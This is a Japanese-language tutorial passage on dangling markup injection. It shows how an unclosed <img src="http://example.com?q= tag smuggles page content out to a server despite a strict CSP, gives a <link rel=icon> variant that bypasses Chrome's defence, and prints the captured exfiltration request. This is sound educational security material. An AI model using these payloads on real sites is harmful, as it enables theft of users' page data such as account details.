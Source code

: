 この例では、クエリ文字列を介してHTMLをページに注入できます。しかし、問題はCSPが非常に厳格であり、JavaScript、CSS、さらにはiframeも許可しないことです。この場合、ページからデータを盗むにはどうすればいいでしょうか？

`<img src="http://example.com?q=` を渡すことができます。重要なのは、この `<img>` タグが閉じられておらず、属性が二重引用符で囲まれていないことです。元のHTMLと組み合わせると、次のようになります。

```html
<div>
  Hello, <img src="http://example.com?q=
  <div>
    Your account balance is: 1337
  </div>
  <footer><img src="footer.png"></footer>
</div>
</body>
</html>
```

ページ上の元のテキスト `<div>Your account balance...` は `src` の一部になり、別の `"` に遭遇するまで属性を閉じず、`>` に遭遇するまでタグを閉じません。言い換えれば、意図的に閉じられていないタグを使用することで、ページのコンテンツをURLの一部にすることに成功し、それがサーバーに送信されます。この種の攻撃はダングリングマークアップインジェクションと呼ばれます。

この攻撃は、コンテンツセキュリティポリシー（CSP）が厳格で、ページからデータを盗みたい場合に役立ちます。この攻撃手法を試すことができます。ただし、Chromeには組み込みの防御メカニズムがあり、`src` または `href` に `<` または改行が含まれている場合、URLを読み込まないことに注意することが重要です。

したがって、上記のHTMLをChromeで実行すると、リクエストがブロックされることがわかります。ただし、Firefoxには現在同様のメカニズムがなく、喜んでリクエストを送信します。

ただし、注入ポイントが偶然 `<head>` 内にある場合、`<link>` を使用してChromeの制限をバイパスすることもできます。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta
      http-equiv="Content-Security-Policy"
      content="script-src 'none'; style-src 'none'; form-action 'none'; frame-src 'none';"
    />
    <link rel=icon href="http://localhost:5555?q=
  </head>
  <body>
    <div>
      Hello,
      <div>Your account balance is: 1337</div>
      <footer><img src="footer.png" /></footer>
    </div>
  </body>
</html>
```

受信されるリクエストは次のようになります。

```
GET /?q=%3C/head%3E%3Cbody%3E%20%20%3Cdiv%3E%20%20Hello,%20%20%20%3Cdiv%3E%20%20%20%20Your%20account%20balance%20is:%201337%20%20%3C/div%3E%20%20%3Cfooter%3E%3Cimg%20src= HTTP/1.1
```

URLデコード後、元のHTMLが表示され、データが正常に盗まれます。

